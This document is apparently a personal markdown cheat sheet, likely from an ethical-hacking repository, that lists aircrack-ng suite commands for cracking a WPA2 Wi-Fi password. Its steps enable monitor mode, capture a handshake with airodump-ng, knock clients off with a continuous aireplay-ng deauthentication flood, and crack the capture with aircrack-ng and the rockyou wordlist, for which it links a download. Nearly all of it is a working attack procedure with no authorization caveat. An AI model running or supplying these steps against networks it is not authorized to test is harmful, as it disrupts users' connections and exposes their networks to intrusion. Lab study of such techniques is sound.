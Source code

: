 ```yaml
---
title: Commands WPA2 handshake
completed?: yes
---
```


**Kills processes:**
`sudo airmon-ng check kill`

> If you want to restart the processes run the following command:
> `sudo service NetworkManager restart`

**Starts monitor mode**
`sudo airmon-ng start wlan0`

**Verify that monitor mode is used**
`sudo airmon-ng`

**Get the AP's MAC address and channel**
`sudo airodump-ng wlan0`

1.  **window 1**
    
    1.  *Fill in the channel(after -c) and bssid(after --bssid)*
    2.  `sudo airodump-ng -w hack1 -c --bssid wlan0`
    
    > Note: "hack1 is the filename where we are going to store the captures in, you can choose the name of this file as it doesn't matter, you need to make sure that you remember it tho"
    
2.  **window 2**
    
    1.  *Fill in the bssid after '-a'*
    2.  `sudo aireplay-ng --deauth 0 -a wlan0`

**Use Wireshark to open hack file**
`wireshark hack1-01.cap`

> Note: This is the filename which we've chosen in 'window 1', as there are many captures going on (unless you live under a rock or something ;P), you will get multiple files and that's why there is a '-01' added. You could even have to look in 'hack1-03.cap' to be able to find the 4-way handshake.

**Filter Wireshark messages for EAPOL**

**Stop monitor mode**
`airmon-ng stop wlan0`

**Crack file with Rock you or another wordlist**
**Make sure you have rockyou in text format (unzip file on Kali)**
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

> Note: You can find it on any Kali distribution included at the location above, mine didn't have it tho, so I had to download it :'(
> If your were out of luck like me and don't have the wordlist, [you could download it over here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
> **I had to use the following command as it was not included in my Kali distro (I downloaded my wordlist)**
> `aircrack-ng hack1-01.cap -w /root/Downloads/rockyou.txt`

**We can also try this without a wordlist, [you can also use a brute force attack](https://github.com/AyoubVD/Ethical-hacking/blob/51bc119549ab96eaf936f4ab024866cd72a6abd0/Bruteforce%20wpa2.md)**
